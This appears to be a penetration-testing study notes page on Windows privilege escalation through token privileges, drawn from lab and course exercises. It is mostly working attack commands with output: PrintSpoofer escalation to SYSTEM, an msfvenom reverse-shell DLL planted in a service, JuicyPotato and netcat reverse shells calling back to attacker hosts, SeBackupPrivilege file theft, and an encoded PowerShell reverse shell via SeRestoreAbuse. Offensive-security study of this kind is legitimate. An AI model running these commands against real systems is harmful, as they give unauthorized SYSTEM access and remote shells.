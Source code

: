 # Token Impersonation

```
whoami /priv
```



Doing further research on token impersonation vulnerabilities, you will see a number of different exploits exist. These have whimsical names such as Hot Potato, Rotten Potato, Lonely Potato, Juicy Potato, etc. You will be able to decide on which "Potato" better suits your need depending on the version of the target system. While some of these exploits will run on the target system, others may require you to set up a fake server on the same network.



{% hint style="info" %}
Other privileges that may lead to privilege escalation are _SeBackupPrivilege_, _SeAssignPrimaryToken_, _SeLoadDriver_, and _SeDebug_. In this section, we'll closely inspect privilege escalation vectors in the context of _SeImpersonatePrivilege_.
{% endhint %}

## PWK2024&#x20;

## SeImpersonatePrivilege

{% code title="" overflow="wrap" lineNumbers="true" %}
```
kali@kali:~$ wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe 
...
2022-07-07 03:48:45 (16.6 MB/s) - ‘PrintSpoofer64.exe’ saved [27136/27136]

kali@kali:~$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
{% endcode %}

{% code title="" overflow="wrap" lineNumbers="true" %}
```
C:\Users\dave> powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Users\dave> iwr -uri http://192.168.119.2/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe
iwr -uri http://192.168.119.2/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe
```
{% endcode %}

{% code title="" overflow="wrap" lineNumbers="true" %}
```
PS C:\Users\dave> .\PrintSpoofer64.exe -i -c powershell.exe
.\PrintSpoofer64.exe -i -c powershell.exe
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\system32> whoami
whoami
nt authority\system
```
{% endcode %}

## Capstone exercise 16.3.2 Q2

{% code title="Created payload to be copied on the victim" overflow="wrap" lineNumbers="true" %}
```
msfvenom -p windows/x64/shell_reverse_tcp lhost=192.168.45.218 lport=5555 -f dll > EnterpriseServiceOptional.dll
 
```
{% endcode %}

{% code title="Download and restart service" overflow="wrap" lineNumbers="true" %}
```
PS C:\Services> iwr -uri http://192.168.45.218/EnterpriseServiceOptional.dll -Outfile EnterpriseServiceOptional.dll     
PS C:\Services> Restart-Service EnterpriseService                                                                       PS C:\Services>     
```
{% endcode %}

### SeBackupPrivilege

Used the steps from here to copy files and enable SeBackupPrivilege to copy flag.txt

{% code title="Enable SeBackupPrivilege and copy flag.txt" overflow="wrap" lineNumbers="true" %}
```
iwr -uri http://192.168.45.218/SeBackupPrivilegeUtils.dll -Outfile SeBackupPrivilegeUtils.dll
iwr -uri http://192.168.45.218/SeBackupPrivilegeCmdLets.dll -Outfile SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
Set-SeBackupPrivilege
Get-SeBackupPrivilege
Copy-FileSeBackupPrivilege c:\users\enterpriseadmin\Desktop\flag.txt c:\users\enterpriseuser\flag.txt
```
{% endcode %}

## Old

We will need to check the list of [CLSID](http://ohpe.it/juicy-potato/CLSID/) to use the exploit.



**Exploit and CLSID list**:

```
https://github.com/ohpe/juicy-potato
```

{% code overflow="wrap" %}
```
certutil.exe -urlcache -f http://10.10.XX.XX/JuicyPotato.exe C:\Temp\JuicyPotato.exe
certutil.exe -urlcache -f http://10.10.XX.XX/nc.exe C:\Temp\nc.exe
JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\inetpub\drupal-7.54\nc.exe -e cmd.exe 10.10.XX.XX 555" -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}

or without a CLSID
 .\JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\Users\merlin\Desktop\nc.exe -e cmd.exe 10.10.16.22 5555" -t * 
```
{% endcode %}

## SeRestorePrivilege

check this walk-through here [https://www.youtube.com/watch?v=1nRzABu6eKU](https://www.youtube.com/watch?v=1nRzABu6eKU) and use this tool [https://github.com/xct/SeRestoreAbuse](https://github.com/xct/SeRestoreAbuse)&#x20;

Encode PS reverse oneliner to UTF-16LE + base64

```
.\SeRestoreAbuse.exe "cmd /c powershell -exec bypass -enc <base64 encoded reverse shell here>"
```

